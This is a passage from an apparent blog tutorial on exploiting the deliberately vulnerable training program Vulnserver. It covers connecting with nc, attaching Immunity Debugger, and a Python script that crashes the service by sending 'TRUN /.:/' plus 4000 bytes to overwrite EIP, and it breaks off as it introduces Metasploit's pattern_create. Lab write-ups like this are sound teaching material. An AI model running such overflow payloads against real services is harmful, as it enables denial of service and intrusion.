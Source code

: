 Start running the vulnserver application, make sure your firewall is configured to allow this local connection. 

![vulnserver 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver1.png)

First, a basic nc connection to the victim machine on port 9999 shows that Vulnserver is actively running.

![vulnserver 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver2.png)

Use Immunity debugger and attach the running vulnserver application to it, this will allow you to monitor and fully get a grasp on the application being exploited.

![vulnserver 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver3.png)

## Crash the application with Python

With the vulnserver application running on port 9999 on the victim host target, you can use a basic python socket connection to send data to this command.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 4000    # data to crash the application
buffer_exploit = "TRUN /.:/" + payload # the command to community with our application

# socket connection to the program's port
expl = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
expl.connect((victim_host, port))
expl.send(buffer_exploit)

print("[x] Sent TRUN + malicious payload to the victim")
print("[!] You may need to send it multiple times")
expl.close()
```
After you send the vulnerable application the buffer of A's, you can observe the application crashing. The overwritten registers show this is being successfully exploited.

![vulnserver 4](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver4.png)

Now that we can confirm it is vulnerable to a classic EIP overwritten buffer overflow, we need to figure out exactly how big the buffer size is when we write data into the program, it crashes with 4000 bytes, but how big is the buffer? 

If we can determine how big the buffer is, we can fill it up, and the next data after it will be written into the EIP registers (4 bytes), which we need to control.

## Calculate the input buffer size

We can use the pattern_create tool from Metasploit, this creates a unique pattern every few bytes, if we crash the program with this, we can see exactly where the EIP register has been overwritten.
